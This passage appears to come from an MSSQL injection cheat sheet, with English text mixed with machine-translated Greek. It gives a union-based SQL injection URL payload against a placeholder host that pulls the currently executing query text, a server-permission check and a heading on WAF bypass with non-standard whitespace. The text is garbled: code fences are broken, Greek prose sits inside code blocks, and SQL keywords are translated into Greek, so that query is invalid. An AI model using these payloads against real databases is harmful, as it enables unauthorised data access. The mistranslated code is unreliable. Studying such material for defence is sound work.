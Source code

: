 ```
Αυτός ο κώδικας θα επιστρέψει τα ονόματα των σχημάτων, των πινάκων και των στηλών της βάσης δεδομένων, χρησιμοποιώντας τη συνάρτηση `CONCAT_WS` για να τα συνδέσει μεταξύ τους χρησιμοποιώντας τον χαρακτήρα `:`. Η εντολή `FOR JSON AUTO` μετατρέπει τα αποτελέσματα σε μορφή JSON.

Με την εκτέλεση αυτού του κώδικα, μπορείτε να ανακτήσετε πληροφορίες για τη βάση δεδομένων και να προχωρήσετε σε περαιτέρω επιθέσεις.
```

### Retrieving the Current Query

[Trick from here](https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/).

For users granted the `VIEW SERVER STATE` permission on the server, it's possible to see all executing sessions on the SQL Server instance. However, without this permission, users can only view their current session. The currently executing SQL query can be retrieved by accessing sys.dm_exec_requests and sys.dm_exec_sql_text:

```sql
https://vuln.app/getItem?id=-1%20union%20select%20null,(select+text+from+sys.dm_exec_requests+cross+apply+sys.dm_exec_sql_text(sql_handle)),null,null

Σε αυτό το παράδειγμα URL, η παράμετρος "id" έχει μια ευπάθεια SQL Injection. Μπορούμε να εκμεταλλευτούμε αυτήν την ευπάθεια για να ανακτήσουμε πληροφορίες από τη βάση δεδομένων MSSQL.

Η εντολή "union select null,(select+text+from+sys.dm_exec_requests+cross+apply+sys.dm_exec_sql_text(sql_handle)),null,null" εισάγεται μετά το "id=-1" για να εκτελέσει μια εναλλακτική επιλογή SQL. Αυτή η εντολή ανακτά το κείμενο των εκτελούμενων SQL ερωτημάτων από τον πίνακα sys.dm_exec_requests και τον πίνακα sys.dm_exec_sql_text.

Με αυτόν τον τρόπο, μπορούμε να ανακτήσουμε ευαίσθητες πληροφορίες από τη βάση δεδομένων MSSQL μέσω της ευπάθειας SQL Injection.
```

To check if you have the VIEW SERVER STATE permission, the following query can be used:

```sql
```sql
ΕΠΙΛΕΞΤΕ * ΑΠΟ fn_my_permissions(NULL, 'SERVER') ΟΠΟΥ permission_name='VIEW SERVER STATE';
```
```

## **Little tricks for WAF bypasses**

[Tricks also from here](https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/)

Non-standard whitespace characters: %C2%85 или %C2%A0:

```
# MSSQL Injection

## Εισαγωγή
